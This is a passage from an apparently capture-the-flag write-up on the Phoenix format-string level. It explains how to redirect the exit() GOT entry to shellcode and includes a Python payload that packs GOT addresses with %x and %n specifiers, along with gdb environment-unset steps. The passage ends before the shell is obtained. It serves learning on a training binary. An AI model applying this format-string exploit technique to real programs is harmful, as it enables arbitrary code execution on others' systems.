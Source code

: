 
## Popping the Shell

After proving GOT redirection to `congratulations`, the next step is to redirect `exit()` to the buffer containing shellcode. The idea is the same: write the address of a buffer (for example `ebp+0x8` or another stable stack/buffer address) into the `exit` GOT slot, then trigger `exit` so control transfers to our shellcode.

> bytes in the format string (such as `0x90` or NOPs) are not executed by `printf`; they become executable only after control is redirected to their memory location and the CPU begins executing there.

first in .gdbinit i unset and set the following:


Lets reuse previous payload and clear the buffer
```
import struct
EXIT_PLT = 0x80497e4
exploit = ""
exploit += "A" * 4
exploit += "B" * 4
exploit += "C" * 4
exploit += "D" * 4
exploit += struct.pack("I", EXIT_PLT)
exploit += struct.pack("I", EXIT_PLT+1)
exploit += struct.pack("I", EXIT_PLT+2)
exploit += struct.pack("I", EXIT_PLT+3)
exploit += "%x" * 10
exploit += "%x"
exploit += "%n"
exploit += "%n"
exploit += "%n"
print exploit
```

in gdb:
unset env LINES
unset env COLUMNS
unset env TERM
unset env _
unset env OLDPWD
unset env SHLVL

disassemble bounce and check the buffer out:

![alt image](/assets/phoenix-format/buffer.png)
